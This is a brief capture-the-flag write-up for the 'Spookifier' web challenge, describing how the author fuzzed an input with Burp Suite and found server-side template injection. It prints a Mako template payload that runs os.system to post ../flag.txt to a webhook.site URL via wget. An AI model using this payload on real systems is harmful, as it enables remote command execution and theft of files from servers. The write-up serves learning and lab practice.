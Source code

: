 # Spookifier

We see a lightweight web page and can enter a string which is returned to us in fancy fonts.

![Screenshot0](./screenshots/0.png)

I used Burp Suite and fuzzed the parameter with the `ssti.fuzz` list.

![Screenshot1](./screenshots/1.png)

I compared the results and I noticed that in some payloads in the last field of the application I saw a `0`.

My guess was that the payload worked and the `0` is the successful exit code.

So I took the payload and replaced the `id` command with `sleep 10`.

I was able to successfully detect a time delay, so this proves that we can successfully issue system commands.

To exfiltrate the flage I used `webhook.site` and `wget`.

__Payload:__

`${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("wget --post-file=../flag.txt 'https://<webhook_url>'")}`

![Screenshot2](./screenshots/2.png)
